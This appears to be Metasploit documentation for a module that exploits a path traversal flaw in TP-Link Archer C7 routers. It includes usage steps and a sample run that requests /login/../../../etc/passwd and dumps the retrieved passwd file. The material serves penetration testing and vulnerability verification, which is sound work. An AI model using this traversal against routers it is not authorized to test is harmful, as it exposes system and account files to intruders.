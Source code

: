 ## Vulnerable Application

This module attempts to spider files from an archer c7 router using a known traversal vulnerability

## Verification Steps

1. `use auxiliary/scanner/http/archer_c7_traversal`
2. `set RHOSTS <addr>`
3. `set FILE <file>`
4. `run`

## Scenarios

### Archer C7_V1_141204_US

```
msf6 > use auxiliary/scanner/http/archer_c7_traversal
msf6 auxiliary(scanner/http/archer_c7_traversal) > set rhosts 192.168.0.1
rhosts => 192.168.0.1
msf6 auxiliary(scanner/http/archer_c7_traversal) > run

[*] Grabbing data at /login/../../../etc/passwd
[+] /etc/passwd retrieved
root:x:0:0:root:/root:/bin/sh
Admin:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/bin/sh
daemon:x:2:2:daemon:/usr/sbin:/bin/sh
adm:x:3:4:adm:/adm:/bin/sh
lp:x:4:7:lp:/var/spool/lpd:/bin/sh
sync:x:5:0:sync:/bin:/bin/sync
shutdown:x:6:11:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
uucp:x:10:14:uucp:/var/spool/uucp:/bin/sh
operator:x:11:0:Operator:/var:/bin/sh
nobody:x:65534:65534:nobody:/home:/bin/sh
ap71:x:500:0:Linux Usermmm:/root:/bin/sh
admin:x:500:500:admin:/home:/bin/sh
guest:x:500:500:guest:/home:/bin/sh
root:x:0:0:root:/root:/bin/sh
admin:x:500:500:admin:/tmp/dropbear:/bin/sh

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
